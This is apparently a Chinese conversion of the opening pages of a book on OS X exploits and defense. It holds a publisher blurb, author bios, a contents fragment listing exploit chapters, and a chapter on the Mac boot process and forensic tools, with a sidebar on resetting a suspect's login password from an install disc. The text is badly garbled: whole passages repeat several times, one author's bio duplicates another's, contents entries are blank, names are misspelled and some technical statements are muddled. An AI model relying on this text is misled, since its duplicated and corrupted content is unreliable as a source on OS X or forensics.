# OS X 漏洞利用与防御：像 Windows 或 Linux 一样掌握它！

拥有它……就像拥有 Windows 或 Linux 一样！

- 查看 OS X Tiger 和 Leopard 的真实利用技术
- 对 OS X 恶意软件进行逆向
- 使用 OS X 进行渗透测试和无线攻击 (WarDriving)

**作者：**
- Paul Baccas，技术编辑
- Kevin Finisterre
- Larry H.
- David Harley
- Gareth Porteous

## 出版社信息

Sygress 致力于为 IT 专业人士出版高质量书籍，并以符合客户需求的媒体和格式交付这些书籍。我们还致力于通过我们网站提供的额外材料，扩展您所购书籍的实用性。

我们的 Ultimate CD 产品线为读者提供了高性价比的合集，包含了我们一些畅销书的 Adobe PDF 版本。这些 CD 是扩展您所在专业领域关键主题参考资料库的完美方式，包括 Cisco 工程、Microsoft Windows 系统管理、网络犯罪调查、开源安全和防火墙配置等。

对于等不及等待纸质书的读者，我们提供可下载的 Adobe PDF 格式的大多数书籍。这些电子书通常比纸质书早几周可用，且价格合理。

我们在 sygress.com 的特卖店提供积压、绝版或轻微破损的书籍，价格大优。

Sygress 拥有一完善的站点授权计划，将我们的电子书授权到公司、教育机构和大型组织的服务器上。请联系 `sales@sygress.com` 获取更多信息。

许多组织欢迎将多本 Syngress 书籍的部分以及他们自己的内容合并成一册，供其内部使用。请联系 `sales@sygress.com` 获取更多信息。

## 作者简介

### Kevin Finisterre

Kevin Finisterre 自 20 世纪 80 年代以来一直在恶意软件和安全问题进行研究和写作。2001 年至 2006 年，他在英国国家医疗服务担任基础设施安全主管，专门负责恶意软件和所有形式的电子邮件攻击管理，并运行风险评估中心。他还担任 Small-Green World 的独立作者和顾问。他于 2008 年 1 月加入 ESET 研究团队。他是《Viruses Revealed》（McG-Hill）的合著者，《OS X Malware Defense for the Enterprise》（Syngress）的首席作者和技术编辑，也是《Botnets: the Killer App》（Syngress）的贡献者。他为 Wiley、Pearson 和 Viewview 等出版商的许多安全和教育书籍做过贡献。在空闲时间，他是 AVIEN（杀病毒信息交换网络）的负责人，并管理 Mac Virus 网站。

### David Harley

David Harley 自 20 世纪 80 年代以来一直在恶意软件和安全问题进行研究和写作。2001 年至 2006 年，他在英国国家医疗服务中担任基础设施安全主管，专门负责恶意软件和所有形式的电子邮件攻击管理，并运行风险评估中心。他还担任 Small-Green World 的独立作者和顾问。他于 2008 年 1 月加入 ESET 研究团队。他是《Viruses Revealed》（McG-Hill）的合著者，《OS X Malware Defense for the Enterprise》（Syngress）的首席作者和技术编辑，也是《Botnets: the Killer App》（Syngress）的贡献者。他为 Wiley、Pearson 和 Viewview 等出版商的许多安全和教育书籍做过贡献。在空闲时间，他是 AVIEN（杀病毒信息交换网络）的负责人，并管理 Mac Virus 网站。

### Chris Hurley

Chris Hurley 是华盛顿特区地区的高级渗透测试员。他拥有超过 10 年渗透测试、漏洞评估和通用信息安全工作的经验。他是 World-Wide WarDrive 的创始人，这是一个旨在评估全球部署无线网络安全状况的四年项目。Chris 还是 World-Wide WarDrive 的原始组织者。

他是 DEF CON WarDriving 竞赛的获奖者之一。他是《WarDriving: Drive, Detect, Defend》（Synergy Publishing, ISBN: 1931860305）的主作者。他曾为 Synergy 的其他书籍贡献过，包括《Penetration Tester's Open Source Toolkit》（ISBN: 1–5974490210）、《Stealing the Network: How to Own an Identity》（ISBN: 1597490067）、《InfoSec Hacking》（ISBN: 1597490113）以及《OS X for Hackers at Heart》（ISBN: 1597490407）。他拥有安捷洛州立大学的计算机科学学士学位，并拥有一堆证书来让自己觉得自己很有重要。他与妻子 Jennifer 和女儿 Ashley 住在马里兰州。

### Johnny Long

**Johnny Long** 是一位因得主恩典的基督徒、职业黑客、骨子里的海盗、一名正在训练中的忍者、安全研究员和作家。你可以在他的网站（`http://johnny.ihackstuff.com`）找到他。他是 Hackers For Charity（`http://hackcharities.org`）的创始人，该组织为黑客提供工作经验，同时利用他们的技能为需要这些技能的慈善机构。

### Gareth Porteous

**Gareth Porteous** 是诺维奇艺术设计学院的帮助台和数字设计技术员。

## 目录片段

### 准备好导入 ... 229

### 重放 ... 240

### 使用 KisMAC 攻击 WPA ... 242

### 其他攻击 ... 243

- 字典列表攻击 ... 243

### 用于 WarDriving 和 WLAN 测试的其他 OS X 工具 ... 246

总结 ... 246

常见问题 ... 248

# 第 7 章 安全与 OS X ... 251

### Leopard 和 Tiger 的规避 ... 252

### 防火墙 ... 252

### 视觉窥视 ... 253

### 可靠的栈缓冲区溢出利用 ... 255

- 回到 Tiger 版本的 dyld 存根和 libSystem ... 264
- Apple 漏洞月 ... 272
- 结果概述 ... 273
- 一个 Photocast XML 格式字符串漏洞 ... 276
- Apple DMG 与文件系统相关的内核漏洞 ... 280
- Scarlet 中的 mDNSResponder ... 282
- 第二个漏洞：当你超越极限时 ... 285
- 更好的钥匙串安全性 ... 292
- 哈希算法（Hashes） ... 294
- 影子文件（Shadows）与 DES ... 295
- ... 296
- ... 297
- ... 300
- ... 302
- ... 304
- ... 306
- ... 308
- ... 310
- ... 312
- ... 313
- ... 316
- ... 317
- ... 320
- ... 320

# 第一章 Macintosh OS X 启动过程与取证软件

本章包含的内容：

- 启动过程
- Macintosh 启动过程
- Macintosh 取证软件
- 总结

## 引言

“为了我们大多数人设计的计算机”从未被视为一个理想的黑客平台。原最初的 Mac 甚至没有方向键（同理，也没有控制键），这迫使用户停止手头的工作，松开键盘，并使用鼠标。Mac 的机箱设计非常紧凑，以至于需要一种名为“Mac 破解器”的特殊工具来打开它。它是一台封闭式机器，一种信息设备。Mac 无扩展槽的设计和密封的外壳与之前的 Apple II 形成了鲜明对比。

凭借其丰富的图形界面和易用性，Mac 成为了图形艺术家和其他创意人员的标准配置。自定义图标和桌面模式很快随处可见。那些因简单而拥抱 Macintosh 的用户开始使用 `ResEdit`（资源编辑器）来修改系统文件并个性化他们的机器。Mac 培养了一群狂热的追随者，你可以确信，每个狂热者的系统都是独特的，其图标、菜单、程序启动器、窗口、声音和键盘快捷键都经过了推敲和完善，以满足他的个人需求。我的 Color Classic 甚至在每次关机时都会播放猪哥的“就此结束，大家散”（尽管这种新鲜感很快就消失了……）。

Mac OS 的出现曾引发了一些疑虑。它破坏了每一个程序和系统修改，它没有一个真正的 Apple 菜单——而且这个“Dock（Dock）”到底是什么？给 Mac 命名的 Jeff Raskin 在评价 Mac OS 时写道：“Apple多年忽略了关于开发 UI（用户界面）的所有经验。这是不专业的、无能的，而且正在伤害。” Apple 人机界面组的创始人 Bruce Tognazzi 甚至写了一篇名为《Apple 极其差劲的 10 个理由》的文章。

Mac OS 是一个完全不同的操作系统。大多数经典的 Mac OS 应用是兼容的，但仅限于在特殊的运行时环境中运行。所有的系统扩展和用户界面修改都永久性丢失了。对于许多用户来说，这些变化让计算机真正“属于他们”，他们严重依赖这些自定义设置来高效地完成工作。这种损失是巨大的。但它是值得的。

抢占式多任务、对称多处理、多线程和保护内存…… 保护内存正是我想要的。

在 1998 年的一场发布会上，Steve Jobs 仅展示了一个简单的对话框就赢得了掌声。对话框上写着：“应用程序弹窗意外退出。您不需要重启计算机。”我认为 Mac OS X 是理所当然的，但当我写这些文字时，我回想起 Internet Explorer 在一天内多次导致我的整个系统崩溃的情况。


## 启动过程

在本节中，我们将查看大多数计算机经历的启动过程，以及基础操作系统是如何加载和启动的。你会看到计算机从相互依赖的微小步骤开始，逐渐变大，直到整个系统加载并运行。只有那时，你作为用户才能发出计算机能够解释和理解的命令。

关于计算机如何启动最流行的类比之一是“失忆场景”。请观察一下你每天使用的物品：电话、铅笔、咖啡杯等等。现在想象你闭上眼睛，当你睁开眼睛时，你不再认识其中任何东西，并且不知道它们是如何工作的。这就是当你按下重置键或电源键时，计算机内部发生的情况。

在最基础的层，计算机只理解两件事：真（`true`）和假（`false`）。让计算机从空白状态变为完全运行的操作系统的过程，是每个调查员都应该理解的基础项目之一。

在查看了 Macintosh 如何启动后，我们将查看可以使用 Macintosh 和 Windows 操作系统分析 Macintosh 系统的某些工具。

“boot（启动）”一词取决于你交流的对象，它源自旧短语“提着鞋带提自己（Pulling one’s self up by the bootstraps）”，或者仅仅来自“bootstrap”一词，


意思是你用来拉靴子的环。它是计算机历史和传说的一部分，通常用作系统初始启动的计算机术语。所有能够运行的系统都包含这一过程。在查看了 Macintosh 的启动方式后，我们将查看一些可以使用 Macintosh 和 Windows 操作系统分析 Macintosh 系统的工具。

在本节中，我们将查看大多数计算机经历的启动过程，以及基础操作系统是如何加载和启动的。你会看到计算机从相互依赖的微小步骤开始，逐渐变大，直到整个系统加载并运行。只有那时，你作为用户才能发出计算机能够解释和理解的命令。

关于计算机如何启动最流行的类比之一是“失忆场景”。请观察一下你每天使用的物品：电话、铅笔、咖啡杯等等。现在想象你闭上眼睛，当你睁开眼睛时，你不再认识其中任何东西，并且不知道它们是如何工作的。这就是当你按下重置键或电源键时，计算机内部发生的情况。

在最基础的层，计算机只理解两件事：真（`true`）和假（`false`）。让计算机从空白状态变为完全运行的操作系统的过程，是每个调查员都应该理解的基础项目之一。

在查看了 Macintosh 如何启动后，我们将查看一些可以使用 Macintosh 和 Windows 操作系统分析 Macintosh 系统的某些工具。

- “boot（启动）”一词取决于你交流的对象，它源自旧短语“提着鞋带提自己（Pulling one’s self up by the bootstraps）”，或者仅仅来自“bootstrap”一词，


# 第一章

Macintosh OS X 启动过程与取证软件

本章包含的内容：

- 启动过程
- Macintosh 启动过程
- Macintosh 取证软件

总结

# 第一章 · Macintosh OS 启动过程与取证软件

## 引言

“为了我们大多数人设计的计算机”从未被视为一个理想的黑客平台。原最初的 Mac 甚至没有方向键（同理，也没有控制键），这迫使用户停止手头的工作，松开键盘，并使用鼠标。Mac 的机箱设计非常紧凑，以至于需要一种名为“Mac 破解器”的特殊工具来打开它。它是一台封闭式机器，一种信息设备。Mac 无扩展槽的设计和密封的外壳与之前的 Apple II 形成了鲜明对比。

凭借其丰富的图形界面和易用性，Mac 成为了图形艺术家和其他创意人员的标准配置。自定义图标和桌面模式很快随处可见。那些因简单而拥抱 Macintosh 的用户开始使用 `ResEdit`（资源编辑器）来修改系统文件并个性化他们的机器。Mac 培养了一群狂热的追随者，你可以确信，每个狂热者的系统都是独特的，其图标、菜单、程序启动器、窗口、声音和键盘快捷键都经过了推敲和完善，以满足他的个人需求。我的 Color Classic 甚至在每次关机时都会播放猪哥的“就此结束，大家散”（尽管这种新鲜感很快就消失了……）。

Mac OS 的出现曾引发了一些疑虑。它破坏了每一个程序和系统修改，它没有一个真正的 Apple 菜单——而且这个“Dock”到底是什么？给 Mac 命名的 Jeff Raskin 在评价 Mac OS 时写道：“Apple多年忽略了关于开发 UI（用户界面）的所有经验。这是不专业的、无能的，而且正在伤害。” Apple 人机界面组的创始人 Bruce Tognazzi 甚至写了一篇名为《Apple 极其差劲的 10 个理由》的文章。

Mac OS 是一个完全不同的操作系统。大多数经典的 Mac OS 应用是兼容的，但仅限于在特殊的运行时环境中运行。所有的系统扩展和用户界面修改都永久性丢失了。对于许多用户来说，这些变化让计算机真正“属于他们”，他们严重依赖这些自定义设置来高效地完成工作。这种损失是巨大的。但它是值得的。

抢占式多任务、对称多处理、多线程和保护内存…… 保护内存正是我想要的。

在 1998 年的一场发布会上，Steve Jobs 仅展示了一个简单的对话框就赢得了掌声。对话框上写着：“应用程序弹窗意外退出。您不需要重启计算机。”我认为 Mac OS X 是理所当然的，但当我写这些文字时，我回想起 Internet Explorer 在一天内多次导致我的整个系统崩溃的情况。


## Macintosh OS X 启动过程与取证软件 · 第一章

当所有内容都在经典环境（`Classic Environment`）中运行时，保护内存无法发挥作用，而且用户界面确实有许多改进空间。随着每一次修订，Mac OS X 都有了巨大的进步。Macintosh 已成为“每个人的计算机”。对于新手来说，它仍然是世界上容易使用的计算机。对于爱好者来说，过去有大量的第三方应用程序、工具和自定义设置，可以调整并改进操作系统的运行方式。对于黑客和程序员来说，可以调整命令行和 BSD Unix 兼容层。

Linux 的所有力量、工具和极客精神都存在于 Mac OS X 中。Shell 脚本、X11 应用、内核扩展……它是一个 UNIX 平台。甚至可以放弃 Apple 的 GUI 直接运行 KDE。你为什么要这样做呢？虽然 UNIX 内核让 Mac OS X 成为黑客和程序员的可行平台，但让它流行的却是用户界面。

Apple Terminal 应用在我的 PowerBook 上持续运行，iTunes、iCal 以及一系列 Dashboard 组件都是如此。

## 启动过程

在本节中，我们将查看大多数计算机经历的启动过程，以及基础操作系统是如何加载和启动的。你会看到计算机从相互依赖的微小步骤开始，逐渐变大，直到整个系统加载并运行。只有那时，你作为用户才能发出计算机能够解释和理解的命令。

关于计算机如何启动最流行的类比之一是“失忆场景”。请观察一下你每天使用的物品：电话、铅笔、咖啡杯等等。现在想象你闭上眼睛，当你睁开眼睛时，你不再认识其中任何东西，并且不知道它们是如何工作的。这就是当你按下重置键或电源键时，计算机内部发生的情况。

在最基础的层，计算机只理解两件事：真（`true`）和假（`false`）。让计算机从空白状态变为完全运行的操作系统的过程，是每个调查员都应该理解的基础项目之一。

在查看了 Macintosh 如何启动后，我们将查看一些可以使用 Macintosh 和 Windows 操作系统分析 Macintosh 系统的某些工具。

“boot（启动）”一词取决于你交流的对象，它源自旧短语“提着鞋带提自己（Pulling one’s self up by the bootstraps）”，或者仅仅来自“bootstrap”一词，


意思是你用来拉靴子的环。它是计算机历史和传说的一部分，通常用作系统初始启动的计算机术语。所有能够运行的系统都包含这一过程。在查看了 Macintosh 的启动方式后，我们将查看一些可以使用 Macintosh 和 Windows 操作系统分析 Macintosh 系统的某些工具。

### Macintosh 启动过程

在本节中，我们将简要查看 Macintosh 启动的方式。OS X 使用的是基于 Intel 芯片组的 Open Firmware。

Apple 使用的 Open Firmware 与 BIOS 非常相似。

就像市上的任何其他计算机一样，当电源开关启动时，系统通过电源自检 (`POST`)，重置处理器并启动初始化代码，使用的是 Open Firmware 而不是 BIOS。

- 按下 `C` 键尝试从 CD/ROM 驱动器启动。
- 按下 `D` 键尝试从主硬盘启动。
- 按下 `N` 键尝试从网络接口控制器 (`NIC`) 启动。
- 按下 `Z` 键尝试从 ZIP 驱动器启动。

你可以在通电期间按下 `cmd-opt-F` 组合键进入 EFI 交互控制模式。（注意：如果你像我一样在阅读之前就尝试了这一点，在提示符输入 `mac-boot` 将让 Macintosh 完成启动）。在尝试控制模式之前，你应该拥有良好的 Open Firmware/EFI 命令。Open Firmware 工作组的优秀镜像位于 `http://bananjr6000.apple.com/1275/`。

EFI 程序加载在 `BOOT.efi` 文件中。这是负责加载 OSX 内核并启动用户界面的启动过程部分。

简单来说，真正的 OS X 是多个组件的结合。`XNU` 是驱动器上真实的 OS X 内核名称。它由以下模块组成：

- `Mach` 为内核提供服务层
- `BSD` 提供主要的系统程序接口
- `I/O Toolkit` 提供驱动支持
- `LIBSA` & `LIBKERN` 内核库
- `Platform Expert` 针对特定主板的硬件抽象层
- `Apple I/O` 组件 独特的 Mac 接口

### DARWIN

对于许多坚定的 Macintosh 用户来说，迁移到 OS X 并没有立即被视为开源 UNIX 环境的迁移。不久后，他们意识到自己喜爱的 Mac 现在是一台 UNIX 机器。当你查看 OS X 的根源时，大量的开源模块和程序是从其他小组获取的，包括 Carnegie Mellon、FreeBSD、GNU、Mach、Xfree86、NEXTSTEP 和 OPENSTEP。


# Macintosh OS X 启动过程与取证软件

在本节中，我们将查看大多数计算机经历的启动过程，以及基础操作系统是如何加载和启动的。你会看到计算机从相互依赖的微小步骤开始，逐渐变大，直到整个系统加载并运行。只有那时，你作为用户才能发出计算机能够解释和理解的命令。

关于计算机如何启动最流行的类比之一是“失忆场景”。请观察一下你每天使用的物品：电话、铅笔、咖啡杯等等。现在想象你闭上眼睛，当你睁开眼睛时，你不再认识其中任何东西，并且不知道它们是如何工作的。这就是当你按下重置键或电源键时，计算机内部发生的情况。

在最基础的层，计算机只理解两件事：`true` 和 `false`。让计算机从空白状态变为完全运行的操作系统的过程，是每个调查员都应该理解的基础项目之一。

在查看了 Macintosh 如何启动后，我们将查看一些可以使用 Macintosh 和 Windows 操作系统分析 Macintosh 系统的某些工具。

“boot（启动）”一词取决于你交流的对象，它源自旧短语“提着鞋带提自己（Pulling one’s self up by the bootstraps）”，或者仅仅来自“bootstrap”一词，意思是你用来拉靴子的环。它是计算机历史和传说的一部分，通常用作系统初始启动的计算机术语。所有能够运行的系统都包含这一过程。在查看了 Macintosh 的启动方式后，我们将查看一些可以使用 Macintosh 和 Windows 操作系统分析 Macintosh 系统的某些工具。

在本节中，我们将简要查看 Macintosh 启动的方式。OS X 使用的是基于 Intel 芯片组的 Open Firmware。

Apple 使用的 Open Firmware 与 BIOS 非常相似。

就像市上的任何其他计算机一样，当电源开关启动时，系统通过了电源自检 (`POST`)，重置处理器并启动初始化代码，使用的是 Open Firmware 而不是 BIOS。

- 按下 `C` 键尝试从 CD/ROM 驱动器启动。
- 按下 `D` 键尝试从主硬盘启动。
- 按下 `N` 键尝试从网络接口控制器 (`NIC`) 启动。
- 按下 `Z` 键尝试从 ZIP 驱动器启动。

你可以在通电期间按下 `cmd-opt-F` 组合键进入 EFI 交互控制模式。（注意：如果你像我一样在阅读之前就尝试了这一点，在提示符输入 `mac-boot` 将让 Macintosh 完成启动）。在尝试控制模式之前，你应该拥有良好的 Open Firmware/EFI 命令。Open Firmware 工作组的优秀镜像位于 `http://bananjr6000.apple.com/1275/`。

`EFI` 程序加载在 `BOOT.efi` 文件中。这是负责加载 OSX 内核并启动用户界面的启动过程部分。

对于许多坚定的 Macintosh 用户来说，迁移到 OS X 并没有立即被视为开源 UNIX 环境的迁移。不久后，他们意识到自己喜爱的 Mac 现在是一台 UNIX 机器。当你查看 OS X 的根源时，大量的开源模块和程序是从其他小组获取的，包括 Carnegie Mellon、FreeBSD、GNU、Mach、Xfree86、NEXTSTEP 和 OPENSTEP。

简单来说，真正的 OS X 是多个组件的结合。`XNU` 是驱动器上真实的 OS X 内核名称。它由以下模块组成：

- `Mach` 为内核提供服务层
- `BSD` 提供主要的系统程序接口
- `I/O Toolkit` 提供驱动支持
- `LIBSA` & `LIBKERN` 内核库
- `Platform Expert` 针对特定主板的硬件抽象层
- `Apple I/O` 组件 独特的 Mac 接口

## 地下室笔记……

## 坏家伙不肯给你密码？没问题！

如果你需要调查一台运行 OS X 的 Macintosh，并且需要访问一个已启动的受调查者磁盘取证副本上的某个程序，而他又不肯给你登录密码，请不要担心。如果你有任何版本的 Macintosh OS X 启动 CD 或 DVD，将其放入检视系统，并按住 `C` 键以启动 CD/DVD 驱动器。

当系统询问你是否 `true` 要安装/重新安装 OS X 时，从屏幕顶部的下拉菜单中选择“密码重置工具”（Password Reset Utility）。你将看到一个用户列表，你可以选择其中一个或所有用户，并将账户密码更改为你已知的内容。问题解决了！

## Macintosh 取证软件

直到最近，Macintosh 才开始被取证社区接受。下面列出的只是几个可以让 OS X 系统取证变得更容易的工具。

与所有取证工具一样，调查人员应该对工具的工作原理有坚实的理解，并能够通过演示证明工具产生的每项发现在法庭上是可以复制的。

### BlackBag Forensic 套件

BlackBag Technologies, Inc. 是 Macintosh 平台取证软件的少数提供商之一。其 Macintosh Forensic Suite 是由 26 个模块组成的集合，可以单独启动，也可以从取证套件工具栏启动（见图 1.1）。

#### 图 1.1 取证套件工具栏是启动套件中程序的快速方法


#### 目录扫描 (Directory Scan)

目录扫描工具允许你查看 Macintosh 卷上的所有文件和文件夹（见图 1.2）。卷可以是任何挂载的存储设备，包括 USB 或 Firewire 设备。所有文件（包括隐藏文件）都可进行检查，包括数据分叉（`Data Fork`）/资源分叉（`Resource Fork`）大小、创建者和类型代码以及所有重要的日期/时间戳。

www.syngress.com

# 第1 章 • Macintosh OS X 启动过程与取证软件

你可以选择单独的文件和文件夹导出到新目录以便进一步调查，还可以对主菜单中查看或选择的所有文件打印一份详尽报告。

#### 图 1.2 完全展开的目录扫描可能非常大



> 地下室笔记……

**数据分叉与资源分叉**

Macintosh 文件系统的独特之处在于，每个文件都包含两个被称为“分叉”（Forks）的部分。资源分叉通常包含程序组件，如文件的偏好设置、特殊菜单或图标、特殊控件或按钮以及上一次窗口位置。

数据分叉通常包含用户作为文件一部分提供或创建的数据。发现其中一个分叉是空的情况并不罕见。这两个分叉如何相互作用，在对 Macintosh 计算机进行艰难的调查时可能会有极大帮助。

更多信息可以在 Apple Developer Connection 找到：数据分叉与资源分叉：`http://developer.apple.com/documentation/mac/MoreToolbox/MoreToolbox-11.html`。

当你需要快速查看带有分叉的文件内部内容时，`FileSpy` 是一个很好的工具（见图 1.3）。该实用允许你查看文件中的任一分叉，查看每个分叉的相对大小，并直接移动文件的任何扇区。该工具甚至包含一个 ASCII 过滤器以帮助查看文件。

#### 图 1.3 FileSpy 允许你查看 JPG 中的原始 EXIF 数据



由于文件头（`header`）是 Macintosh 文件的计算部分，更改文件头是非常耗时的操作。`HeaderBuilder` 允许你快速完成此任务并生成 MD5 校验和（见图 1.4）。



取证套件中的其他工具包括：

- `Breakup`：拆分大文件夹。
- `Comment Hunter`：搜索注释字段。
- `DCssistant`：启动 DC 格式。
- `File Searcher`：搜索特定的类型代码。
- `GraphicView`：使用 QuickTime 查看图像。
- `HFS Extractor`：转换 HFS 格式。
- `ImageBuster`：搜索镜像。
- `ListBuilder`：创建语言列表。
- `LockMaster`：锁定或解锁大量文件。
- `MacCarver`：刻取镜像。
- `PhantomSearch`：捕获卷中的隐藏文件。
- `Typer`：搜索类型。
- `VolumeExplorer`：分析 HFS 分区。

Mike Bombich 创建了一个名为 Carbon Copy Stoner (`CCC`) 的实用工具，用于备份 Macintosh 的重要数据。正如其名称所示，`CCC` 可以将硬盘克隆到另一个硬盘。这种拷贝也可以制作成镜像文件，但应注意这并不是原始文件的副本。更多信息可以在 Bombich 网站获取：`www.bombich.com/software/ccc`。



# 第1 章 • Macintosh OS X 启动过程与取证软件

只有 Macintosh 格式的卷才能使用 `CCC` 进行克隆；其他 DOS 或 UNIX 格式无法被识别。如果你没有安装它，可以从偏好菜单进行安装（见图 1.6）。



注意高级设置对话中未拷贝的文件列表（见图 1.7）。

#### 图 1.7 高级设置对话



`CCC` 文档对克隆过程中未拷贝的文件列表有更详细的说明。可能是由于 PowerMac 到 Intel Macintosh 之间的拷贝问题。如有疑问，请参考资料或在线论坛。

从技术上讲，`MacDrive 6` 或 `7` 并不是 Macintosh 软件；它实际上是一个让你挂载和读取 Macintosh 格式卷的 Windows 程序。`MacDrive 6` 适用于 Windows 2000 和 98SE；`MacDrive 7` 适用于 Windows XP（见图 1.8）。

#### 图 1.8 主界面

